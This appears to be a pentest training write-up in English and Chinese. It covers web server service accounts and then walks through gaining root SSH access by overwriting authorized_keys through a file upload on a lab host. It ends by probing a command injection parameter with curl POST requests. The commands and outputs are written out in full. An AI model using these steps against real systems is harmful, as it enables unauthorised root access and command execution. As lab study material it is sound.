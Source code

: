 >[!Note]
> web server accounts and permissions:\
> Linux: `www-data`\
> Windows: IIS runs as a `Network Service account` (passwordless built-in Windows identity with low privileges)
>> Starting with IIS version 7.5, Microsoft introduced the `IIS Application Pool Identities`. These are virtual accounts running web applications grouped by application pools. Each application pool has its own pool identity, making it possible to set more precise permissions for accounts running web applications.

**Try to overwrite the authorized_key**: access the system via SSH as the root user.
```
┌──(chw㉿CHW-kali)-[/]
└─$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in fileup
Your public key has been saved in fileup.pub
...

┌──(chw㉿CHW-kali)-[/]
└─$ cat fileup.pub > authorized_keys
```
![image](https://hackmd.io/_uploads/S1vc2ipGJl.png)
Let's try to connect to the system.\
SSH will throw an error because cannot verify the host key. To avoid this error, we'll delete the known_hosts file before we connect to the system.
```
┌──(chw㉿CHW-kali)-[/]
└─$ rm ~/.ssh/known_hosts

┌──(chw㉿CHW-kali)-[/]
└─$ ssh -p 2222 -i fileup root@mountaindesserts.com
The authenticity of host '[mountaindesserts.com]:2222 ([192.168.50.16]:2222)' can't be established.
ED25519 key fingerprint is SHA256:R2JQNI3WJqpEehY2Iv9QdlMAoeB3jnPvjJqqfDZ3IXU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
...
root@76b77a6eae51:~#
```

## Command Injection
(1) 檢查 Web Application 送出的 parameter
![image](https://hackmd.io/_uploads/B1slrTTfke.png)
> Archive=git+clone+...exploit.db

(2) POST 嘗試可執行的指令
```
┌──(chw㉿CHW-kali)-[/]
└─$ curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive

Command Injection detected. Aborting...%!(EXTRA string=ipconfig) 

┌──(chw㉿CHW-kali)-[/]
└─$ curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive

An error occured with execution: exit status 1 and usage: git [--version] [--help] [-C <path>] [-c <name>=<value>]
           [--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
           [-p | --paginate | -P | --no-pager] [--no-replace-objects] [--bare]
...
   push      Update remote refs along with associated objects
```
